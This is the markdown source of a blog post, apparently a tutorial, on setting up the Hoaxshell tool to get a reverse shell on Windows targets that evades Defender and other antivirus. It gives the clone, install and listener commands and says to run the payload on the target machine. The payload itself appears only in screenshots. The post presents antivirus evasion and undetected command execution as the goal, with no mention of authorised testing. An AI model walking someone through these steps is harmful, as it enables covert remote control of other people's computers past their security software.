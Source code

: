```yaml
---
title: Fully Undetectable Reverse Shells
date: '2022-10-12'
tags: ['cybersecurity']
draft: false
summary: Create a reverse shell which is fully undetectable by Win Defender and other anti virus
images: []
canonicalUrl:
layout: PostLayout
authors: ['default']
---
```


# Frustrated with AVs breaking your shells?

Not to worry anymore I got your back. I will show you how to create a reverse shell which is fully undetectable by Win Defender and other anti virus.

# Introducing [Hoaxshell](https://github.com/t3l3machus/hoaxshell) 🚗

![Hoaxshell](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-logo.png)

Hoaxshell is a reverse shell which as of writing this post is **completely undetectable** by Defender and other Anti Viruses.

# Setup 📐

```bash
git clone https://github.com/t3l3machus/hoaxshell
cd hoaxshell
pip3 install -r requirements.txt
```

# Usage 👊🏻

```bash
python3 hoaxshell.py -h
```

![Usage](/static/images/blogs/fully-undetectable-reverse-shells/usage.png)

You need to start by providing an IP to listen on

1. ### Find your IP address

```bash
sudo ifconfig
```

![IP](/static/images/blogs/fully-undetectable-reverse-shells/find-ip.png)

2. ### Start the listener

```bash
python hoaxshell.py -s <Your IP here>
```

![Listener](/static/images/blogs/fully-undetectable-reverse-shells/hoaxshell-start.png)

3. ### Run the giant monstrous payload on the target machine

![Exploit](/static/images/blogs/fully-undetectable-reverse-shells/exploit.png)

<br />

# You now have a shell 🔥🎊

And the best part? You can now run any command without being detected.

![Shell](/static/images/blogs/fully-undetectable-reverse-shells/shell.png)

## Running commands

![Commands](/static/images/blogs/fully-undetectable-reverse-shells/running-commands.png)

## Anti Virus Fool Proof

![AV](/static/images/blogs/fully-undetectable-reverse-shells/anti-virus.png)

Both **Defender** and **Quick Heal** are fooled by the payload and do not detect it.
